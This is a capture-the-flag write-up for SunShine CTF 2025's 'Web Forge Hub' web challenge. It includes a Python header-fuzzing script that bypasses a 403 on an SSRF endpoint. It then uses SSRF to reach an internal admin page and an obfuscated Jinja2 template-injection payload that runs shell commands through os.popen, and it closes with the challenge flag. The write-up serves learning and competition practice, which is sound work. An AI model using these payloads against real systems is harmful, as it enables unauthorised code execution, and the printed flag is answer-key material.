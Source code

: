 # Web Forge Hub — SunShine CTF 2025

> **Room / Challenge:** Web Forge Hub (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** SunShine CTF 2025
- **Challenge:** Web Forge Hub (web)
- **Target / URL:** `https://wormhole.sunshinectf.games/`
- **Difficulty:** `Medium`
- **Points:** `363`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag through SSRF Tool

## My Solution

This is the home page when we visit the website.

![Guide image](../screenshots/web-forge-1.png)

Through the content of the home page, and the menu links we just have the SSRF Tool which is in `/fetch` url where we can take step in it.

Access to `/fetch` we can receive this message `403 Forbidden: missing or incorrect SSRF access header`. It gives us a hint: we're missing a header attribute that it needs.

I found out `/robots.txt` is accessible in this website. It has this content:

```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Therefore, that special header has to be set to `true`.

Use a `header_fuzzer.py` script, we will find that header.

```python
import requests

def find_ssrf_access_header(url):
    """
    Tests a list of highly probable custom HTTP headers and a specific cookie
    to find the one that grants access to the SSRF endpoint by bypassing the
    403 Forbidden response.
    """
    print(f"[*] Starting access bypass fuzzing against: {url}")

    # List of highly probable custom headers for internal/CTF access bypass
    possible_headers = [
        # --- Core SSRF & Auth Bypass Headers ---
        "X-SSRF-Access",
        "SSRF-Access",
        "X-SSRF-Auth",
        "SSRF-Auth",
        "X-Allow-SSRF",
        "Allow-SSRF",
        "Enable-SSRF",
        "X-Enable-SSRF",
        "X-Internal-SSRF",
        "Internal-SSRF",
        "X-Access-Allowed",
        "Access-Allowed",
        "X-Bypass",
        "Bypass-Security",
        "X-Security-Override",
        "Security-Override",
        "X-Challenge-Bypass",
        "Allow"
    ]

    # The required value based on the robots.txt hint
    required_value = 'true'
    found_bypasses = []

    # We use a 403 status code as the failure indicator
    EXPECTED_FAILURE_CODE = 403

    # Set up generic headers for testing
    generic_headers = {'User-Agent': 'CTF-Header-Fuzzer/1.0'}

    # --- 1. Test standard headers ---
    for header_name in possible_headers:
        # Construct the headers dictionary for the request
        test_headers = generic_headers.copy()
        test_headers[header_name] = required_value

        print(f"[*] Testing Header: {header_name} -> {required_value}...", end=" ")

        try:
            # Using GET for the initial check, as it's less likely to trigger rate limits
            response = requests.get(url, headers=test_headers, timeout=5)
            status_code = response.status_code
            print(f"Status: {status_code}")

            if status_code != EXPECTED_FAILURE_CODE:
                found_bypasses.append({
                    "type": "Header",
                    "name": header_name,
                    "value": required_value,
                    "status": status_code,
                    "preview": response.text[:50].replace('\n', ' ')
                })
                print(f"[!!! SUCCESS !!!] Header: {header_name} changed the response!")

        except requests.exceptions.RequestException as e:
            print(f"Error connecting: {e}")

    print("\n--- Fuzzing Complete ---")
    if found_bypasses:
        print("[+] Potential Access Bypass(es) Found:")
        for bypass in found_bypasses:
            print(f"    - Type: {bypass['type']} | Name: {bypass['name']}: {bypass['value']} | Status: {bypass['status']} | Preview: '{bypass['preview']}...'")
        print("\nUse the successful method (Header or Cookie) along with the 'url' parameter in a POST request to access http://127.0.0.1/admin.")
    else:
        print("[-] No success. The required bypass might be non-standard or missing from the list.")

if __name__ == "__main__":
    TARGET_URL = "https://wormhole.sunshinectf.games/fetch"
    find_ssrf_access_header(TARGET_URL)
```

We can see that `Allow -> True` gives us access to this internal SSRF Tool.

![Guide image](../screenshots/web-forge-2.png)

We cannot add header in normal browser, so from now I will use **Postman** to interact with this internal SSRF Tool _(you can use Burp Suite or whatever you're familiar with)_.

![Guide image](../screenshots/web-forge-3.png)

Let's try type target to `http://127.0.0.1/admin` to see how this tool works since the flag is in `/admin`.

![Guide image](../screenshots/web-forge-4.png)

It said I missing template query param. I try `http://127.0.0.1/admin?template=something` and I got this error.

```
ERROR: HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: /admin?template=something (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7989bc777240>: Failed to establish a new connection: [Errno 111] Connection refused'))
```

`Connection refused` maybe I still get access to the correct `/admin` so I have to port fuzzing. I found port 8000 is open. Type `http://127.0.0.1:8000/admin?template=something` to the target.

![Guide image](../screenshots/web-forge-5.png)

Hmm, so whatever I type to the `template` it will return the same. I got stuck here a little but the website need template so I try SSTI payloads online.

You can get a lot from [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads).

I tried all of them and there is just one payload works.

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![Guide image](../screenshots/web-forge-6.png)

The result is:

```
uid=999(unprivileged) gid=999(unprivileged) groups=999(unprivileged)
```

Now we get access to it, just exploit with bash commands:

Payload:

```
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
```

Use `ls -la`, the result is:

![Guide image](../screenshots/web-forge-7.png)

Use `cat flag.txt` for somehow it returns `Nope.` so I just run `cat flag` to get the flag

![Guide image](../screenshots/web-forge-8.png)

Flag: `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`
